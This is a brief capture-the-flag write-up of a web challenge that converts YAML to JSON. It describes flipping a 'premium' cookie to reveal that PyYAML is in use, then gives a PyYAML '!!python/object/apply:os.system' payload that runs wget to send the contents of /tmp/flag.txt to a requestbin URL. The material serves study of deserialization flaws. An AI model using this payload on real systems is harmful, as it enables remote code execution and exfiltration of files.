 page offers a simple conversion from .yaml to .json

![](https://ibb.co/1XtF9H0?size=150)

website also created a cookie premium:false

it is possible to change value false to true which show us a message that PyYaml library is being used. Some versions of that libs had some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin


{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}

